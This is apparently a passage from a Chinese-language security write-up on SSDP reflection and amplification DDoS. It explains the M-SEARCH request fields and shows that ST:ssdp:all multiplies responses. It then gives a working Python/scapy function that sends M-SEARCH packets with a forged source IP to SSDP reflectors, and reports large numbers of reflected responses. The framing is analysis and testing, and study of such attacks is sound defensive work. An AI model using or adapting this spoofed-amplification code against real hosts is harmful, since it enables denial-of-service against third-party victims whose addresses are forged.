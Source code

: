 





通过上面的分析，其实我们可以判断这里的源IP都是真实的IP，或者说存在真实SSDP服务的端口，而且是新鲜出炉，为我们提供了大量的测试样例，通过收集这些源IP，我们完全可以模拟一次DDoS攻击



对这些源IP进行测试，并对比攻击数据包，发现我们发送的数据包获取的响应包并没有攻击来的多，通过对SSDP协议的深入研究，问题出现在ST:upnp:rootdevice这一行上，我们这里来大致解析一下请求的数据包



```
Host：这里必须使用IANA（Internet Assigned Numbers Authority）为SSDP预留的组播地址：239.255.255.250:1900
Man：必须是"ssdp:discover"，注意这里的引号不能省略
Mx：1到5之间的一个值，表示最大的等待响应的秒数
ST：Search Target的缩写，表示搜索的节点类型，ST是要搜索的目标，如果搜索所有的设备和服务，则为ssdp:all，如果是搜索根设备，则为upnp:rootdevice
```

很明显让所有服务和设备应答，和只让根设备应答，发出来的数据包是完全不同的数量级，立马修改python发包脚本

```
def send_udp(srcip,dstip):
    x =random.randint(0,65535)
    sendmsg = 'M-SEARCH * HTTP/1.1\r\nHost:239.255.255.250:1900\r\nST:ssdp:all\r\nMan:\"ssdp:discover\"\r\nMX:3\r\n\r\n'
    i =IP()
    i.dst=dstip
    i.src=srcip
    u=UDP()
    u.dport=1900
    u.sport=x
    send(i/u/sendmsg)
    print 'success'
```

为了与上面的测试部分的倍数形成对比，使用相同的SSDP服务器作为反射源，成功获取大量响应包

![img](images/201808081622050d4b6d93-84dc-4a5c-846e-c5b79f85fa1e.png)
